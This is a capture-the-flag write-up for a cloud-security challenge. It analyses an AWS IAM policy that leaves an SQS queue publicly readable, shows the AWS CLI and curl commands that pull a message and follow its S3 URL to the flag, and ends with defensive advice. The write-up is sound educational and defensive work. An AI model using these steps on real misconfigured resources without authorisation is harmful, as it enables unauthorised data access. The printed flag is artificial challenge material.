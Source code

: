 Challenge 2: Google Analytics

Challenge Statement

We created our own analytics system specifically for this challenge. We think it’s so good that we even used it on this page. What could go wrong? Join our queue and get the secret flag.

IAM Policy

{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": [
                "sqs:SendMessage",
                "sqs:ReceiveMessage"
            ],
            "Resource": "arn:aws:sqs:us-east-1:092297851374:wiz-tbic-analytics-sqs-queue-ca7a1b2"
        }
    ]
}

Analysis of the IAM Policy
•	What do I have access to?

o	The policy allows any principal ("Principal": "*") to perform the following actions on the specified SQS queue:
"sqs:SendMessage": Send messages to the queue.
"sqs:ReceiveMessage": Receive messages from the queue.

•	What don’t I have access to?

o	Actions such as deleting messages ("sqs:DeleteMessage") or modifying queue attributes are not explicitly allowed.

•	What do I find interesting?
o	The SQS queue is publicly accessible, allowing anyone to send and receive messages. This could lead to potential misuse or exposure of sensitive information.

Solution

Detailed Steps to Retrieve the Flag

1.	Receive Messages from the SQS Queue:
   
o	Utilize the AWS CLI to receive messages from the specified SQS queue:

aws sqs receive-message --queue-url https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2

o	This command retrieves messages from the queue. The output may look like:

{
    "Messages": [
        {
            "MessageId": "44c1cf94-51ca-4f62-9901-a62974d3a40c",
            "ReceiptHandle": "AQEBDD9PTJro+N0m5CTew9NrGyFZgRGL0h1ljFRw9VJKvXhDE/yHwHHAStHXZA5MVRw6Jd2KxJAtdnmkmSQaJvalRIoJtQSsd1zqT+d2rudemniJ1ONJ2ATiEOwYmoacGipi8UXKIdixGDkl12krM9TTQy0d4h9s2xETMKJXXMN88g1rlhZs2XN8iRwSZuJ4I+iqnNVAc0eKT5PozBeR95hTZaspyUQx7jtWIgKYyy3Faqsw7dbbcHyrcZFKzFS7iGIS1RyQ9yHd7JcUZ8ApASULnvF1sDDdAP7ymjbYaXxOIpKnBKq2D1AU4yscXNEfKbBNqGDR5rd7XwyGr9ry9lit6FIry6YaI7bwGG162mlEx4t2lAqnOS9bOt3XPLjpBN4czG7upT3VZGDr63rPSKTWA6r4WbgCe6CAvBAl2Qywxo8=",
            "MD5OfBody": "4cb94e2bb71dbd5de6372f7eaea5c3fd",
            "Body": "{\"URL\": \"https://tbic-wiz-analytics-bucket-b44867f.s3.amazonaws.com/pAXCWLa6ql.html\", \"User-Agent\": \"Lynx/2.5329.3258dev.35046 libwww-FM/2.14 SSL-MM/1.4.3714\", \"IsAdmin\": true}"
        }
    ]
}

2.	Extract and Access the URL:
   
o	From the message body, identify the URL provided:

"URL": "https://tbic-wiz-analytics-bucket-b44867f.s3.amazonaws.com/pAXCWLa6ql.html"

o	Use a tool like curl to access the content of the URL:

curl https://tbic-wiz-analytics-bucket-b44867f.s3.amazonaws.com/pAXCWLa6ql.html

o	The response contains the flag:

{wiz:you-are-at-the-front-of-the-queue}

Flag

{wiz:you-are-at-the-front-of-the-queue}

Reflection

What was your approach?

•	Analyzed the IAM policy to understand the permissions granted.
•	Used the AWS CLI to interact with the SQS queue, retrieving messages to uncover potential leads to the flag.
•	Followed the URL provided in the message to obtain the flag.

What was the biggest challenge?

•	Interpreting the message content correctly to identify the URL leading to the flag.

How did you overcome the challenges?

•	Carefully parsed the JSON message body to extract the URL.
•	Used standard tools (curl) to access the URL and retrieve the flag.

What led to the breakthrough?

•	Recognizing that the message body contained a URL pointing to an S3 object, which likely held the flag.

On the blue side, how can the learning be used to properly defend the important assets?

•	Restrict Public Access: Avoid using wildcard principals ("Principal": "*") to prevent unauthorized access.
•	Implement Principle of Least Privilege: Grant only necessary permissions to specific, authenticated principals.
•	Monitor and Audit: Regularly review and monitor SQS policies and access logs to detect and prevent potential misuse.

